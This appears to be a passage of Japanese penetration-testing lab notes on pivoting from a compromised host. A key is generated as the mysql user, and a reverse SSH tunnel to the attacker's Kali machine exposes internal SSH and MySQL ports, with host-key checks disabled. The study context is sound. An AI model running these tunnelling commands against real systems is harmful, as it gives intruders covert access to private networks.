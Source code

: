 新しいバージョンのsshクライアントでは、リバースダイナミックポートフォワーディングを介したトンネルを確立できる。
```
ssh -V
OpenSSH_8.1p1, OpenSSL 1.1.1d 10 sep 2019
```

ssh バージョン OpenSSH_8.1p1 を実行しており、この機能をサポートしているはずです。これがうまくいけば、Kaliマシン上で動作するSOCKSプロキシを通じて、10.5.5.0/24サンドボックス内部ネットワークに完全にアクセスすることができる。

ターゲット端末上でsshキーを作成し、対話が不要な方法でsshクライアントを実行する必要がある。

- ターゲット端末上にssh鍵を生成
```
$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/var/lib/mysql/.ssh/id_rsa):    #保存場所を変更する時は
　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　　       # 変更場所をフルパスで入力
Enter passphrase (empty for no passphrase):                          #基本Enterでいい
Enter same passphrase again:                                         #基本Enterでいい
Created directory '/var/lib/mysql/.ssh'.
Your identification has been saved in /var/lib/mysql/.ssh/id_rsa.
Your public key has been saved in /var/lib/mysql/.ssh/id_rsa.pub.
...
```
- id_rsa.pubを確認
```
$ cat /var/lib/mysql/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4cjmvS... mysql@zora
```
- sshキーが生成されたら、Kali マシン上の authorized_keys ファイルに、先ほどと同じ種類の制限を付けて kali ユーザー用に設定する
```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4cjmvS... mysql@zora
```
> 許可するIP指定   
>ユーザーが入力するコマンドを無視    
>no-agent- forwarding オプションと no-X11-forwardingオプションで、エージェントと X11 転送を防止   
>no-ttyでユーザーにttyデバイスが割り当てられないようにする
>kaliの~/.ssh/authorized_keysに保存する

ターゲット端末上でsshコマンドを実行
```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.216
#  kali側の1122,13306ポートを開ける
# UserKnownHostsFile=/dev/null：出力を/dev/nullに送信することでsshがホスト鍵を保存することを防ぐ「-o」オプションで指定
# StrictHostKeyChecking=no：sshキーにホスト鍵を受け入れるかどうかのプロンプトを表示しないようにsshに指示「-o」オプションで指定
#　-Nフラグ：コマンドを実行しない
#　-fフラグ：バックグラウンドにする
#　-iフラグ：使用する鍵ファイルをしてい
```
kaliのポートが開いていることを確認
```
sudo netstat -tulpn
```
